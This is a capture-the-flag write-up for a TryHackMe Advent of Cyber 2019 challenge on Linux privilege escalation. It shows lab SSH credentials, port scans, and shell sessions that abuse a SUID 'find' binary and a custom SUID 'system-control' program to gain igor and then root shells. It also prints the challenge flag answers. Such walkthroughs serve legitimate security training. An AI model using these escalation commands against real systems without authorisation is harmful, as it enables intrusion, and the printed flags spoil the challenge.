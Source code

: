 # This is the Write Up for day 8 challenge of Advent of Cyber 2K19 CTF.

> Pratyush Prakhar (5#1NC#4N) - 12/08/2019

## Description

Elf Holly is suspicious of Elf-ministrator and wants to get onto the root account of a server he setup to see what files are on his account. The problem is, Holly is a low-privileged user.. can you escalate her privileges and hack your way into the root account?

SSH details:
Username: holly
Password: tuD@4vt0G*TU

`This challenge is all about knowing your way around linux and permission sets.`

## Solution

1. We find all the ports open with our nmap on steriods - `rustscan`. The scan file can be found [here](https://github.com/pratty010/CTF/blob/master/THM%20CTF/Advent%20of%20Cyber/2K19/day_8/rustscan/all.nmap). 

2. We can then run a full blown scripts scan against the found ports. Results stored [here](https://github.com/pratty010/CTF/blob/master/THM%20CTF/Advent%20of%20Cyber/2K19/day_8/rustscan/main.nmap). It discloses the found high port is running SSH indeed.

3. We can login using the given credentials. Now let's search a suid file owned by `igor`. Two of them jump out - `nmap` and `find`. Took he find route as described [here](https://gtfobins.github.io/gtfobins/find/#suid). Go explore the the nmap one for yourself.

```bash
holly@ip-10-10-88-219:~$ find / -type f -user igor 2>/dev/null 
/usr/bin/find
/usr/bin/nmap
/home/igor/.bash_history
/home/igor/.viminfo
/home/igor/flag1.txt
holly@ip-10-10-88-219:~$ ls -la /usr/bin/find
-rwsr-xr-x 1 igor igor 221768 Feb  7  2016 /usr/bin/find
holly@ip-10-10-88-219:~$ /usr/bin/find . -exec /bin/bash -p \; -quit
bash-4.3$ whoami
igor
bash-4.3$ cat /home/igor/flag1.txt
THM{******************************}
```

4. Did the same for the `root` owned suid. You can spot the odd one out. If not let linpeas do it's work. And what better than a binary which is already running as root. Makes the work easier.

```bash
holly@ip-10-10-88-219:~$ find / -perm -u=s -user root 2>/dev/null 
/bin/ping
/bin/umount
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/snap/core/7396/bin/mount
/snap/core/7396/bin/ping
/snap/core/7396/bin/ping6
/snap/core/7396/bin/su
/snap/core/7396/bin/umount
/snap/core/7396/usr/bin/chfn
/snap/core/7396/usr/bin/chsh
/snap/core/7396/usr/bin/gpasswd
/snap/core/7396/usr/bin/newgrp
/snap/core/7396/usr/bin/passwd
/snap/core/7396/usr/bin/sudo
/snap/core/7396/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/7396/usr/lib/openssh/ssh-keysign
/snap/core/7396/usr/lib/snapd/snap-confine
/snap/core/7396/usr/sbin/pppd
/usr/bin/system-control
/usr/bin/newuidmap
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newgidmap
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
holly@ip-10-10-88-219:~$ /usr/bin/system-control

===== System Control Binary =====

Enter system command: whoami
root
holly@ip-10-10-88-219:~$ /usr/bin/system-control

===== System Control Binary =====

Enter system command: bash -p
root@ip-10-10-88-219:~# cd /root/        
root@ip-10-10-88-219:/root# cat flag2.txt 
THM{******************************}
```


## Brownie Points

1. What port is SSH running on? - **65534**.

2. Find and run a file as igor. Read the file /home/igor/flag1.txt- **THM{d3f0708bdd9accda7f937d013eaf2cd8}**.

3. Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file? - **THM{8c8211826239d849fa8d6df03749c3a2}**.


## Extra Treats.

1. Linpeas file here can give you more insight - [file](https://github.com/pratty010/CTF/blob/master/THM%20CTF/Advent%20of%20Cyber/2K19/day_8/tmp/lin_holly.out).





